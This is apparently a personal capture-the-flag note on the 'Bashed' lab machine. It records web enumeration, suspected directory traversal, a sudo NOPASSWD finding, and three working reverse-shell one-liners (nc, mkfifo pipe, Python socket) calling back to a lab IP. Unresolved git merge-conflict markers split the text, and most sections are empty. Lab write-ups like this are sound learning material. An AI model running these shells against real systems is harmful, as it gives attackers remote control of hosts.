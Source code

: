 <<<<<<< HEAD
# <span style="color:[COLOR]">Machine #30 Bashed</span>  



## <span style="color:[COLOR]">Checklist 🤓   



<br/><br/>


## <span style="color:[COLOR]">What Do We Have? 🤔🤔 
* Some script called `phpbash` that seems to be running on the server.  
* I tried to visit `http://[IP]/uploads` and it worked. It exists.
* I also tried to send a post request to the uploads with the parameter `cmd`, the command `whoami` didn't work, gave me an error `412 Precondition Failed` but when I tried `pwd` or `cat /etc/passwd` it worked but it didn't return an output. Anyway, it doesn't have to return an output.  
* I also have the source code of the phpbash thing which gives me an upper hand.  
* There's a directory called `/php` it seems according to the contact form I found this `/php/sendMail.php`. 
* I was able to open `/php` and it did not include anything but `sendMail.php` but if I was able to open it doesn't that mean that I have Directory Traversal vulnerability. 
* I think I do have directory traversal.
* Found a `/dev` directory through gobuster and since I have directory traversal I was able to view the directory and find that `phpbash.php` is stored there.

nc -e /bin/sh 10.10.14.72 1234

<br/><br/>


## <span style="color:[COLOR]">Random Notes👀

<br/><br/>  


## <span style="color:[COLOR]">How Did I Own This Shit 😎🥳  

<br/><br/>



## <span style="color:[COLOR]">Where I Got Stuck?😡😧  


<br/><br/>



## <span style="color:[COLOR]">What Did I learn from this Machine?👀  


<br/><br/>



## <span style="color:[COLOR]">Writeups ✍🏽📓   


<br/><br/>

<!-- @nested-tags:EXAMPLE/OF/NESTED/TAGS-->  
=======
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.72 1234 >/tmp/f  


User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL


import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.72",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")
>>>>>>> dbdde806dd45795c4fbe9d97ef79e2112c678304
